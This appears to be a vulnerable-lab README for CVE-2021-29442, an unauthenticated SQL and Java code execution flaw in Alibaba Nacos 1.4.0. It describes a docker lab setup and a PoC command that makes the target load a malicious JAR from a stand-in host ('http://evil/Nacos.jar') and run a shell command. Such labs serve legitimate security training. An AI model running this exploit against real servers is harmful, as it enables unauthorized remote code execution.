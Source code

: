 # Alibaba Nacos Authentication Bypass and Remote Code Execution (CVE-2021-29442)

[中文版本(Chinese version)](README.zh-cn.md)

Nacos is an easy-to-use platform designed for dynamic service discovery and configuration and service management.

In the Nacos version before 1.4.1, some API endpoints such as `/nacos/v1/cs/ops/derby` are not protected and can be openly accessed by unauthenticated users. Attackers are able to execute arbitrary SQL statement and Java code.

References:

- <https://github.com/advisories/GHSA-xv5h-v7jh-p2qh>
- <https://github.com/alibaba/nacos/issues/4463>
- <http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce>

## Vulnerable environment

Execute following command to start a Alibaba Nacos 1.4.0:

```
docker compose up -d
```

After server is started, brwose the `http://your-ip:8848/nacos/` you will see the default login page of Nacos.

## Exploit

First, upload malicious JAR [evil.jar](evil.jar) to a HTTP server, for example `http://evil/Nacos.jar`.

Then, execute [POC](poc.py) to exploit the issue:

```
python poc.py -t http://your-ip:8848 -s http://evil/Nacos.jar -c "ps aux"
```

The `-t` parameter specifies the target address, the `-s` parameter specifies the address of the malicious JAR package, and the `-c` parameter specifies the command to be executed.

As you can see, `ps aux` is executed successfully:

![](1.png)
